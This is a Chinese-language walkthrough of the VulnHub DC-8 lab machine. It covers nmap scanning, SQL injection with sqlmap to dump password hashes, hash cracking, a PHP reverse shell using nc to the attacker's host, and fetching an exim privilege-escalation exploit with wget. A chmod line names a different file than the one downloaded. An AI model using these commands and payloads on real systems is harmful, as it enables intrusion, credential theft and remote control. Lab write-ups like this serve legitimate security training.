


> 
>
> [DC-8官网地址]( https://www.vulnhub.com/entry/dc-8,367/)
>
> 


### 信息收集


靶机MAC： 00:0C:29:3A:46:A1


**主机发现**


```shell
nmap -sP  192.168.80.0/24
```



**端口扫描**

```shell
nmap -A -p- 192.168.80.142
```


访问80端口


点击页面能点击的地方，发现每点击一个链接，地址栏的`?nid=`后面的数字就会变


尝试在数字后面加个 `'`引号，发现出现sql报错信息，就可以sql注入


### 漏洞利用

**sqlmap**

列出所有数据库

```shell
sqlmap -u "http://192.168.80.142?nid=2" --risk=3 --level=5  --dbs --batch
```


列出指定数据库的所有表

```shell
sqlmap -u "http://192.168.80.142?nid=2" --risk=3  --level=5 --random-agent  -D d7db --tables
```



列出所有字段

```shell
sqlmap -u "http://192.168.80.142?nid=2" --risk=3  --level=5 --random-agent  -D d7db -T users --columns
```


列出用户名和密码

```shell
sqlmap -u "http://192.168.80.142?nid=2" --risk=3  --level=5 --random-agent  -D d7db -T users -C name,pass --dump
```


将两个密码放到`hash.txt`，借用`john`工具来解密

```shell
john hash.txt
```


使用`ssh`登录，发现没有权限


然后爆破一下目录，找找登录的界面

```shell
dirsearch -u 192.168.80.142 -i 200
```


使用`admin`用户登录，登录失败，那就换一个用户


`john`用户登录成功


找到可以提交`php`代码的地方，写入反弹shell

```php
<p>zzzzz</p>
<?php
@exec("nc -e /bin/bash 192.168.80.141 7777");
?> 
```

kali先开启 监听


往下滑动，保存配置


反弹成功！！


### suid提权

```shell
find / -user root -perm /4000 2>/dev/null
```


漏洞搜索

```shell
searchsploit exim 4.8
```


找出绝对路径

```shell
 searchsploit -p linux/local/46996.sh 
```


复制一份保存到桌面

```shell
cp /usr/share/exploitdb/exploits/linux/local/46996.sh  46996.sh 

```


在桌面路径下开启http服务

```shell
python -m http.server 8080   
```


在交互shell里`wget`下载

```shell
wget http://192.168.80.141:8080/46996.sh
```


```shell
chmod 777 39535.sh
```


查看`46996.sh`


**提权**


提权虽然成功，但是它 过一会就自动没有root权限了